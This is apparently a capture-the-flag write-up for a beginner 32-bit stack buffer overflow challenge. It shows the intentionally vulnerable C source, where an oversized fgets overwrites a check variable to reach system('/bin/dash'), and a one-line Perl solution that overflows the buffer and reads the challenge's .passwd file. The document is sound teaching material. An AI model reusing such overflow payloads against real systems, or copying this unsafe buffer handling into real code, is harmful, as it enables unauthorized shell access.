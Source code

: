 ## ELF32 - Stack buffer overflow basic 1

| Author | Level | Points |
| ------ | ----- | ------ |
| Lyes | Very Easy | 5 |

><b> Statement </b> <br />
>Environment configuration : 
> * [ ] Postion Independent Executable 
> * [ ] Read Only relocations
> * [ ] Non-Executable Stack 
> * [ ] Non-Executable Heap 
> * [ ] Address Space Layout Randomisation 
> * [ ] Source Fortification 
> * [x] Source code access
>
>Source code :
>
>```c
>#include <stdlib.h>
>#include <stdio.h>
> 
>/*
>gcc -m32 -o ch13 ch13.c -fno-stack-protector
>*/
>
>int main()
>{
>   
>  int var;
>  int check = 0x04030201;
>  char buf[40];
>	   
>  fgets(buf,45,stdin);
>      
>  printf("\n[buf]: %s\n", buf);
>  printf("[check] %p\n", check);
>		   
>  if ((check != 0x04030201) && (check != 0xdeadbeef))
>    printf ("\nYou are on the right way !\n");
>			  
>  if (check == 0xdeadbeef)
>  {
>    printf("Yeah dude ! You win !\n");
>    system("/bin/dash");
>  }
>  return 0;
>}
>```

#### Solution

```
(perl -e ';print "a"x40 ."\xef\xbe\xad\xde";'; echo 'cat .passwd') | ./ch13
```
